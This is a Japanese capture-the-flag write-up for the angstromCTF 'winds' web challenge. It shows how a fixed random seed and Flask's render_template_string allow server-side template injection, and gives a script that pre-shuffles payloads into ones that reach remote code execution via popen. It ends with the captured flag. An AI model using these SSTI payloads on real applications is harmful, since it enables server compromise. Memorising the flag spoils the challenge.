

# winds:web:100pts
Challenge: [https://winds.web.actf.co/](https://winds.web.actf.co/)  

[app.py](app.py)  

# Solution
URLとソースが渡される。  
URLにアクセスし、文字列の入力後に`Shout your message...`ボタンを押すと文字列がシャッフルされ表示される。  
試しに`Satoki`とすると、何度試しても`ktaSio`となる。  
  
ソースを見ると主要部分は以下の通りであった。  
```python
~~~
@app.post('/shout')
def shout():
    text = request.form.get('text', '')
    if not text:
        return redirect('/?error=No message provided...')

    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)

    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
            <div>
                Your voice echoes back: %s
            </div>
        </div>
    ''' % jumbled, error=request.args.get('error', ''))
~~~
```
`random.seed(0)`でシードが固定され、入力がシャッフルされているが必ず決まった出力になる。  
さらに`render_template_string`であるので、FlaskのSSTIだ。  
`{{lipsum.__globals__['os'].popen('ls').read()}}`のようにするとRCEできることが知られているので、シャッフル後に有効なペイロードになるような文字列を送信すればよい。  
以下のrandom_ssti.pyで雑に生成する。  
```python
import sys
import random

payload = sys.argv[1]
rand_payload = list(" " * len(payload))

for i in range(len(payload)):
    tmp = list(" " * len(payload))
    tmp[i] = "\x00"
    random.seed(0)
    random.shuffle(tmp)
    rand_payload[i] = payload[tmp.index("\x00")]

print("".join(rand_payload))
```
`ls`するペイロードを生成する。  
```bash
$ python random_ssti.py "{{lipsum.__globals__['os'].popen('ls').read()}}"
i{)'son.lo_am'u_(p'rpl)s}e}s_].ad{(ol.'epbs_[lg
```
  
`flag.txt`があるようなので、`cat`するペイロードを生成する。  
```bash
$ python random_ssti.py "{{lipsum.__globals__['os'].popen('cat flag.txt').read()}}"
aldo(mf.ga]p{t_eapa)snt_}.(ol''reoti'x'sbl{._l[c)s. pg}u_
```
  
flagが得られた。  

## actf{2cb542c944f737b85c6bb9183b7f2ea8}